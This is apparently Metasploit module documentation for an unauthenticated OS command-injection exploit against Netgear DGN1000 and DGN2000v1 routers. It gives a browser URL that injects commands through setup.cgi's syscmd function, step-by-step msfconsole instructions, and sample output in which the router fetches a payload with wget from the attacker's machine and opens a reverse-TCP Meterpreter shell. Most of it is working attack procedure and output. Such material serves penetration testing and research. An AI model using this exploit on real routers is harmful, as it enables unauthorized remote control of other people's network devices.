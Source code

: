 The module netgear_dgn1000_setup_unauth_exec module exploits an unauthenticated OS command injection vulnerability in vulnerable Netgear DGN1000 with firmware versions up to `1.1.00.48` in addition to DGN2000v1 models, all firmware versions. The vulnerability occurs in within the `syscmd` fuction of the `setup.cgi` script to execute arbitrary commands. Manual exploitation could be completed through the browser, as for example : `http://<RouterIP>/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=echo+vulnerable&curpath=/&currentsetting.htm=1`. Such example will return "vulnerable" on the page. Vulnerable models have `wget` installed on `/usr/bin/wget` and can be leveraged to drop a MIPS Big Endian payload.

## Vulnerable Application

Netgear DGN1000 with firmware versions up to `1.1.00.48` and DGN2000v1 models

## Verification Steps

  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_dgn1000_setup_unauth_exec`
  3. Do : `set RHOST <RouterIP>`
  4. Do : `set PAYLOAD <payload>`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session

## Scenarious

Sample output of a successfull exploitation should be look like this :

```msf > use exploit/linux/http/netgear_dgn1000_setup_unauth_exec
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RPORT 80
RPORT => 80
msf exploit(netgear_dgn1000_setup_unauth_exec) > set LHOST eth0
LHOST = eth0
msf exploit(netgear_dgn1000_setup_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(netgear_dgn1000_setup_unauth_exec) > run

[*] Started reverse TCP handler on 192.168.0.11:4444
[*] 192.168.0.1:80 - Connecting to target...
[*] 192.168.0.1:80 - Exploiting target ....
[*] Using URL: http://0.0.0.0:8080/DnuJhOHYg7auIz
[*] Local IP: http://192.168.0.11:8080/DnuJhOHYg7auIz
[*] Client 192.168.0.1 (Wget) requested /DnuJhOHYg7auIz
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (1073332 bytes) to 192.168.0.1
[*] Meterpreter session 2 opened (192.168.0.11:4444 -> 192.168.0.1:51558) at 2017-10-20 20:37:06 -0400
[*] Command Stager progress - 100.00% done (129/129 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 2.6.20-Amazon_SE)
Architecture : mips
Meterpreter  : mipsbe/linux
meterpreter >
